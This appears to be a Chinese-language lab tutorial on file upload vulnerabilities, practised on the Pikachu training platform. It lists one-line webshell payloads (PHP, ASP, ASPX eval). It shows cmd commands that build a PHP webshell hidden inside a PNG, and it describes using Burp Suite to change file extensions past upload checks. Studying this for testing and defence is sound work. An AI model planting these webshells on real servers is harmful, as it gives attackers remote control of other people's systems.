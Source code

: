 # 文件上传

服务器对上传文件的后缀和类型没有严格的过滤限制，导致攻击者能任意上传恶意脚本文件并执行，攻击者可通过该恶意文件实现访问控制整个后台

## 一、一句话木马

一句话木马的核心原理是利用脚本语言的动态执行函数，执行攻击者通过HTTP请求传递的指令，常用于攻击者实现对目标服务器的远程控制。一句话木马对应不同的脚本语言有不同的典型结构

| 脚本语言 | 基础语法                                      |
| -------- | --------------------------------------------- |
| PHP      | \<?php eval($_POST['cmd']); ?\>               |
| ASP      | \<%eval request("cmd")%\>                     |
| ASPX     | \<%Page Language="Jscript"%\> \<%eval(...)%\> |

一句话木马的编写相对简单，问题在于如何将木马文件上传到服务端、如何利用木马文件实现远程控制

## 二、文件上传漏洞

文件上传漏洞基于一句话木马漏洞，将木马文件上传到目标后通过自动化工具实现对目标的远程控制、文件管理等，在pikachu漏洞练习平台上暂时仅测试了两种检测方式，一种通过前端检测上传文件后缀名、一种通过检测文件MIME媒体类型。两者检测原理不同，但需要修改的操作类似，仅演示一种操作

1. 组合木马文件和图片文件

   图片文件自行准备。直接使用木马文件上传极易被过滤，大部分时候都需要将木马伪装成其他类型的正常文件，比如图片。图片文件最好准备一些简易的低清小图片，高清图片的内容太多，自动化工具可能会找不到木马语句

   ```cmd
   # 编写木马文件
   copy con pika.php
   <?php eval($_POST['hebor']); ?>
   ^Z
   
   # 组合木马文件和图片文件
   copy /b pika.php + pika.png pikapi.png
   ```

2. 通过pikachu平台测试文件上传；文件上传前需要启用burpsuite抓包

   ![客户端检查-1](image\文件上传\客户端检查-1.png)

3. 通过burpsuite的重放器进行处理

   通过浏览器上传文件时，前端会对文件后缀名进行检测，这种情况下木马文件会直接被前端拦截，因此首先需要修改文件后缀名来绕过前端检测。但即便以`.jpg`文件格式转发到目标了，PHP无法对`.jpg`文件进行解析，木马语句也就成了摆设。因此，在绕过前端拦截后，需要通过抓包将数据拦截在burpsuite上，然后通过burpsuite的重放器对数据进行修改后测试转发

   ![客户端检查-1](image\文件上传\客户端检查-2.png)

   通过重放器修改文件后缀类型后，有3种方式确认文件是否上传成功，除了上述2种方式以外，还可以在浏览器中直接访问木马文件，检查是否能直接管观察到文件内容

   ![客户端检查-3](image\文件上传\客户端检查-3.png)

4. 使用自动化工具尝试连接木马

   ![客户端检查-4](image\文件上传\客户端检查-4.png)

通过burpsuite修改文件名称、媒体类型是最简单的枚举操作，文件上传漏洞的枚举远不止这两种

![文件上传思路导图](image\文件上传\文件上传思路导图.png)

